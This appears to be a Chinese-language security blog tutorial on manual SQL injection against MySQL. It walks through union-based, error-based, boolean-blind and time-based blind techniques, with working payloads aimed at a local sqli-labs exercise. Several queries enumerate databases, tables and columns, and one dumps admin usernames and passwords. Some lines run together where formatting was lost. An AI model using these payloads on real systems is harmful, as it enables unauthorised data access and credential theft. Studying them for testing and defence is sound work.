





联合查询注入
sql注入流程
1：判断注入点，在可能存在SQL注入变量的后边添加以下payload:
➢and 1=1 / and 1=2回显页面不同(整形判断)
➢单引号或双引号判断显示数据库错误信息或者页面回显不同(整形，字符串类型判断)
➢\ (转义符)
➢-1/+1回显下一个或上一个页面(整型判断)
注:加号'+'在URL中有特殊含义，因此在需要对其进行URL编码为%2b。
2：判断是整型注入还是字符型注入
数字型与字符型的最大区别在于:数字类型不需要引号闭合,而字符类型需要使用引号闭合。
select * from table where id = 1 #数字型select * from table where username = 'admin' #字符型3、根据不同的分类进行注入
根据SQL注入语法分类:
➢UNION query SQL injection (可联合查询注入)
➢Error-based SQL injection (报错型注入)
➢Boolean-based blind SQL injection (基于布尔型注入)
➢Time-based blind SQL injection (基于时间延迟注入)
➢Stacked queries SQL injection(可多语句查询注入)
UNION使用规则
UNION的作用是将两个或多个SELECT语句查询结果合并起来。
➢UNION必须由两条或两条以上的SELECT语句组成,语句之间用关键字UNION分隔。
➢UNION中的每个查询的列数必须相同。
➢UNION会从查询结果集中自动去除了重复行。
联合查询注入前提
前提条件:页面上有显示位，在一个网站的正常页面,服务端执行SQL语句查询数据库中的数据,客户端将数据展示在页面中,这个展示数据的位置就叫显示位。
UNION查询手注过程
1、判断是整型还是字符型
上面已经提到过就不说了
2、判断查询列数
order by函数是对MySQL中查询结果按照指定字段名进行排序,除了指定字段名还可以指定字段的栏位进行排序,第一个查询字段为1 ,第二个为2 ,依次类推。我们可以通过二分法来猜解列数。
order by 1
order by 20
order by 10
......这里的order by 3还是正常显示，4就开始报错。那就说明查询列数应该是3


3、判断显示位

2，3

4、获取所有数据库名
group_concat() 一次性显示:
select group_concat(SCHEMA_NAME) from information_schema.SCHEMATA;
limit 逐一显示:
select count(SCHEMA_NAME) from information_schema.SCHEMATA; #查询数据库个数
select SCHEMA_NAME from information_schema.SCHEMATA limit 0,1;5、获取数据库(test)所有表名
group_concat() 一次性显示:
select group_concat(TABLE_NAME) from information_schema.TABLES where table_schema='test';
limit 逐一显示:
select count(TABLE_NAME) from information_schema.TABLES where table_schema='test'; #查询表的个数
select TABLE_NAME from information_schema.SCHEMATA where table_schema='test' limit 0,1;
两个显示位，就可以直接查数据库名和所有表名了mysql的所有表名,接下来查下去的东西也就直接放查询语句了

6、获取(数据库:test,表:admin)中所有字段名
group_concat() 一次性显示:
select group_concat(COLUMN_NAME) from information_schema.COLUMNS where table_schema='test' and table_name='admin';
limit 逐一显示:
select count(COLUMN_NAME) from information_schema.COLUMNS where table_schema='test' and table_name='admin'; #查询字段总个数
select COLUMN_NAME from information_schema.COLUMNS where table_schema='test' and table_name='admin' limit 0,1;7、获取字段中的数据
列出(数据库: test表: admin)中指定字段(username,password)中的数据:
group_concat() 一次性显示:
select group_concat(concat_ws ('0x20',username,password)) from test.admin;
limit 逐一显示:
select count(*) from test.admin; #查询总共有多少行数据
select username,password from test.admin limit 0,1;报错注入
前提
页面上没有显示位，但有sql语句执行错误信息输出/脚本语言报错
在用PHP对MySQL进行一些增删改查操作的时候 ,如果数据库在执行的过程中遇到错误,此时数据库是有错误回显的, 但是这个错误回显不会显示在Web应用页面中的。
注入过程
和一般的注入流程也是一样的，只是查询的时候稍微不一样
函数总结
floor报错
and (select 1 from (select count(*),concat((payload),floor(rand(0)*2))x from information_schema.tables group by x)a)extractvalue()
and extractvalue(1, payload)
and extractvalue(1, concat(0x7e,@@version,0x7e))updatexml
and updatexml(1,payload,1)
and updatexml(1, concat(0x7e,@@version,0x7e),1)updatexml测的sqllab1
http://localhost/Less-1?id=1' and updatexml(1,user( ),1) --+user()显示不完全，可以改成下面这样多个字符串连接成一个字符串就可以显示更多东西了
http://localhost/Less-1?id=1' and updatexmL( 1, concat(0x7e,user( ) ,0x7e) ,1) --+查询所有数据库：受到输出长度限制
http://localhost/Less-1?id=1' and updatexmL( 1, concat(0x7e,(select group_concat(SCHEMA_NAME) from information_schema.SCHEMATA) ,0x7e) ,1) --+可以通过限制查询条件一条一条的查,limit 0,1从第一个值开始查询
select SCHEMA_NAME from information_schema.schemata limit 0,1select count(SCHEMA_NAME) from information_schema.schemata #布尔盲注
前提
页面中没有显示位，没有输出SQL语句执行错误信息。只能通过页面返回正常/不正常来判断存不存在注入。 缺点:速度太慢,耗费大量时间。
常用函数
substr()
substr (string, num start, num length)作用：截取字符串。(string:字符串 start:起始位置 length:长度)
ascii()
作用:返回字符串str的字符ASCII码值。
如果str是空字符串就返回0.如果string是NULL就返回NULL。
布尔盲注过程
判断数据库个数
?id=1 and (select count(schema_name) from information_schema.schemata)>8判断第一个数据库名的字符长度
?id=1 and (select length(schema_name) from information_schema.schemata limit 0,1)>18判断第一个库的第一个字符
?id=1 and (select ascii(substr((select schema_name from information_schema.schemata limit 0,1),1,1)))>105判断第一个库的第二个字符
?id=1 and (select ascii(substr((select schema_name from information_schema.schemata limit 0,1),2,1)))>110依次找出剩下内容···
用到ascii()就是借此利用二分法减少盲注次数
时间盲注
前提
页面上没有显示位,也没有输出SQL语句执行错误信息。正确的SQL语句和错误的SQL语句返回页面都一样,但是加入sleep(5)条件之后,页面的返回速度明显慢了5秒。
if()函数
IF(Condition,A,B)
当Condition为TRUE时,返回A。
当Condition为False时,返回B。注入过程
判断数据库个数
?id=1 and if((select count(schema_name) from information_schema.schemata)=9,sleep(5),1)判断第一个数据库名有多少个字符
?id=1 and if((select length(schema_name) from information_schema.schemata limit 0,1)=18,S leep(5),1)判断第一个库第一个字符
?id=1 and if((select ascii(substr((select schema_name from information_schema.schemata limit 0,1),1,1)))=105,sleep(5),1)//判断第一个库第二个字符
?id=1 and if((select ascii(substr((select schema_name from information_schema.schemata limit 0,1),2,1)))=110,sleep(5),1)//


- 本文链接：https://woosec.com/2020/04/12/sql%E6%B3%A8%E5%85%A5/
- 版权声明：本博客所有文章除特别声明外，均默认采用 许可协议。